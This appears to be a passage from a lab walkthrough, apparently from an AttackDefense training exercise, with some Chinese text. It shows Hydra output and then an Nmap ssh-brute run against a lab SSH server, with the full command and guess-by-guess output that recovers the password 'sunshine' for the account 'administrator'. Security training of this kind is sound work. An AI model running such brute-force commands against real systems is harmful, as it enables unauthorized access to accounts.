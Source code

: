 ```
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-22 14:17:12
```

Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst

`administrator:sunshine`

[ssh-brute](https://nmap.org/nsedoc/scripts/ssh-brute.html)

Script Arguments

`userdb` 备用用户名数据库的文件名。默认值：nselib/data/usernames.lst

`passdb` 备用密码数据库的文件名。默认值：nselib/data/passwords.lst

```
root@attackdefense:~# echo "administrator" > user
root@attackdefense:~# nmap -p 22 --script ssh-brute --script-args userdb=user 192.4.223.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 14:30 UTC
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: administrator:
NSE: [ssh-brute] Trying username/password pair: administrator:123456
NSE: [ssh-brute] Trying username/password pair: administrator:12345
NSE: [ssh-brute] Trying username/password pair: administrator:123456789
NSE: [ssh-brute] Trying username/password pair: administrator:password
NSE: [ssh-brute] Trying username/password pair: administrator:iloveyou
NSE: [ssh-brute] Trying username/password pair: administrator:princess
NSE: [ssh-brute] Trying username/password pair: administrator:12345678
NSE: [ssh-brute] Trying username/password pair: administrator:1234567
NSE: [ssh-brute] Trying username/password pair: administrator:abc123
NSE: [ssh-brute] Trying username/password pair: administrator:nicole
NSE: [ssh-brute] Trying username/password pair: administrator:daniel
NSE: [ssh-brute] Trying username/password pair: administrator:monkey
NSE: [ssh-brute] Trying username/password pair: administrator:babygirl
NSE: [ssh-brute] Trying username/password pair: administrator:qwerty
NSE: [ssh-brute] Trying username/password pair: administrator:lovely
NSE: [ssh-brute] Trying username/password pair: administrator:654321
NSE: [ssh-brute] Trying username/password pair: administrator:michael
NSE: [ssh-brute] Trying username/password pair: administrator:jessica
NSE: [ssh-brute] Trying username/password pair: administrator:111111
NSE: [ssh-brute] Trying username/password pair: administrator:ashley
NSE: [ssh-brute] Trying username/password pair: administrator:000000
NSE: [ssh-brute] Trying username/password pair: administrator:iloveu
NSE: [ssh-brute] Trying username/password pair: administrator:michelle
NSE: [ssh-brute] Trying username/password pair: administrator:tigger
NSE: [ssh-brute] Trying username/password pair: administrator:sunshine
NSE: [ssh-brute] Trying username/password pair: administrator:chocolate
Nmap scan report for target-1 (192.4.223.3)
Host is up (0.000061s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 28 guesses in 6 seconds, average tps: 4.7
MAC Address: 02:42:C0:04:DF:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.20 seconds
```
